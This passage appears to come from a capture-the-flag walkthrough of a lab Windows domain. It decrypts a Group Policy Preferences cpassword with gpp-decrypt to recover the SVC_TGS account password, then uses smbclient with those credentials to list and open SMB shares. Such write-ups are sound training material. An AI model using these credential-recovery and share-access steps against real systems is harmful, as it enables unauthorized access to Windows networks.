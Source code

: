 ```
edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

Type:

```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

The password is `GPPstillStandingStrong2k18`.

![gpp-decrypt](./Screenshots/activegpp-decrypt.png)

### smbclient, part II

Let's log in.

From `Groups.xml` we know that `Username` is `SVC_TGS`.

Type:

```
smbclient -L //{target ip}/ -U SVC_TGS%GPPstillStandingStrong2k18
```

to see which `SMB resources` we can possibly connect to.

![smbclient](./Screenshots/activesmb7.png)

`Users` shares are now accessible.

Type:

```
smbclient //{target ip}/Users -U SVC_TGS%GPPstillStandingStrong2k18
```
